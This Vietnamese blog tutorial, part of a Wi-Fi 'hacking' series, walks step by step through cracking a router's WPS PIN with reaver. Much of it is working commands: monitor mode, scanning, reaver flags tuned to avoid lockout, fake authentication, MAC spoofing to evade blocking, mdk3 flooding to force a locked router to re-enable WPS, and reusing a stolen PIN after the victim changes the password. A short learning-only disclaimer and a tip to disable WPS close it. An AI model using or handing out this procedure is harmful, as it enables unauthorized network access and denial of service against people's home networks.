 # Nghịch vài trò "hack" Wifi - Phần 2: WPS

Ở phần thứ nhất, chúng ta đã tìm hiểu cách hack wifi bằng phương pháp từ điển - lợi dụng sơ hở trong quá trình xác thực bắt tay 4 bước. Hack wifi bằng từ điển có ưu điểm là hạ được nhiều loại bảo mật nhưng lại gặp vấn đề khi người dùng đặt mật khẩu khó, có khi chạy cả tháng, cả năm cũng không ra mật khẩu. Thay vào đó, chúng ta sẽ lợi dụng sơ hở trong xác thực mã pin, hôm nay mình sẽ trình bày phương pháp hack wifi thông qua WPS.
## Tổng quan
Với phương pháp hack wifi bằng WPS, điều kiện tiên quyết là modem wifi phải bật chế độ WPS, vậy WPS là gì?
WPS - WiFi Protected Setup, là tính năng hỗ trợ kết nối mạng wifi giữa Client và AP với nhau, nhưng lại bỏ qua bước phải nhập mật khẩu WiFi truyền thống. Nhờ có WPS mà người dùng không cần nhớ mật khẩu vẫn có thể truy cập vào AP, hầu hết modem hiện nay đều hỗ trợ WPS (có thể xem ở modem nhà bạn). Và quan trọng hơn là nó mặc định được bật :).
## Công cụ và thực hành
- <a href="https://www.aircrack-ng.org/doku.php">Aircrack-ng</a>: công cụ chuyển chế độ monitor
- <a href="https://github.com/t6x/reaver-wps-fork-t6x">Reaver</a>: công cụ mạnh mẽ tấn công kiểm tra các mạng wifi sử dụng phương thức tấn công brute force mã PIN
- <a href="https://gitlab.com/kalilinux/packages/mdk3">Mdk3</a>: công cụ tấn công gói tin tới AP
- <a href="https://github.com/alobbs/macchanger">Macchanger</a>: công cụ hỗ trợ thay đổi địa chỉ mac của thiết bị

Như cách tấn công bằng từ điển, chúng ta cần có 1 card wifi hỗ trợ monitor, ở đây mình vẫn chọn TP-link WN722N V1.
<img src="https://crowi.pionero.io/files/610edcc41120630068a6a65e"  width="400px" height="300px">
Kiểm tra tên của card wifi:

```shell
# airmon-ng
```
<img src="https://crowi.pionero.io/files/610edd4c1120630068a6a660" height="150px">

Tắt toàn bộ tiến trình sử dụng mạng
```shell
# airmon-ng check kill
```
<img src="https://crowi.pionero.io/files/610edd4c1120630068a6a65f" height="150px">

Start monitor cho card có tên là wlan0
```shell
# airmon-ng start wlan0
```
<img src="https://crowi.pionero.io/files/610ee1381120630068a6a66c" height="150px">

Kiểm tra lại lần nữa:
```shell
# airmon-ng
```
<img src="https://crowi.pionero.io/files/610edd4c1120630068a6a663" height="150px">

Chúng ta có 1 monitor là wlan0mon, bây giờ ta thực hiện các thao tác trên monitor.
Quét tất cả các AP hỗ trợ WPS xung quanh:
```shell
# wash -i wlan0mon
```
![Screenshot_2021-08-29_10-01-20.png](https://crowi.pionero.io/files/612b933d01bb4b0067d0ad93)
Nếu lệnh này không hiển thị được các AP, fix bằng cách tạo 1 thư mục `reaver` cho nó.
```shell
# mdkir /etc/reaver
```
Xác định mục tiêu, như thường lệ, mình vẫn chọn AP có tên là **Room_402**, chính là AP của phòng mình(đã đổi mật khẩu khác trước nhé ^_^)
Chúng ta cần xác định 1 số tham số:
- Bssid: Địa chỉ MAC của AP
- Channel: Kênh của AP
- Essid: Tên của AP

Sau khi xác định được các yếu tố trên, chạy lệnh:
```shell
# reaver -i wlan0mon -b <bssid> -vv -S -g 21 -A -L -N
```
Trong đó:
- vv: Xem log 1 cách chi tiết
- g: số lần attempts mã pin, ở đây mình chọn là 21 - kinh nghiệm
- A: Không sử dụng *associate*, ở đây mình *associate* bằng *aireplay-ng* để tránh timeout
- L: không cập nhât trạng thái locked
- N: không sử dụng Nack message


Sử dụng aireplay-ng để gửi liên tục các fake-auth để tránh tình trạng AP bị timeout.
```shell
# iw dev wlan0mon set channel <channel> && aireplay-ng --fakeauth 15 -a <bssid > -e <essid> wlan0mon
```

Trong quá trình tấn công, có 1 vài modem chặn quá trình tấn công **DDOS** nên chúng ta phải liên tục thay đổi địa chỉ MAC cho monitor.
```shell
# ifconfig wlan0mon down
# macchanger -r wlan0mon
# ifconfig wlan0mon up
```
Tham số -r để chỉ định sinh ra ngẫu nhiên.
![image.png](https://crowi.pionero.io/files/612b953b01bb4b0067d0ad94)


Một số modem có cơ chế tự động tắt WPS nếu nhận quá nhiều attempts, nếu kiểm tra thấy WPS đã bị lock, chúng ta cần tấn công **DDOS** để modem reset và bât lại WPS. Ở đây, ta sử dụng Mdk3 để tấn công.
Chúng ta có thể sử dụng các mode a b d m để tấn công, hoặc kết hợp toàn bộ, chi tiết xem thêm ở <a href="https://kalitut.com/mdk3-examples-tutorial/">đây</a>.
## Kết quả
Sau tầm 15p chúng ta đã có kết quả, mặc dù password đã đặt rất khó: *@&wifi#nay#deo#the#hack#1998$$*
nhưng sử dụng WPS vẫn chỉ mất có 15p ^_^.
![image.png](https://crowi.pionero.io/files/612b923b01bb4b0067d0ad92)

1 tip nữa sau khi có được mã pin, dù victim có thay đổi mật khẩu thì chúng ta vẫn dễ dàng tìm được, chỉ cần thêm tham số -p ở câu lệnh:
```shell
# reaver -i wlan0mon -b <bssid> -vv -S -g 21 -A -L -N -p <pin>
```
Với pin là pin đã lấy được ở trên.
## Tổng kết
Kĩ thuật lợi dụng WPS là 1 kĩ thuật khó, đòi hỏi phải có nhiều kinh nghiệm cũng như xử lý tốt tình huống.
So với kĩ thuật hack bằng từ điển thì kĩ thuật này có ưu điểm không cần biết mật khẩu đặt khó hay không, nhưng nhược điểm là bắt buộc modem phải bật WPS. Do đó, điều chúng ta rút ra rằng là không nên bật chế độ WPS nếu không thực sự quá cần thiết.
Sang bài tiếp theo, chúng ta sẽ tiếp cận với một hướng đi khác, dễ hơn, lợi hại hơn nhưng cũng nguy hiểm - **Phising Attack**.

*lưu ý: bài viết chỉ nhằm mục đích học tập, mình không chịu trách nhiệm cho mọi tình huống*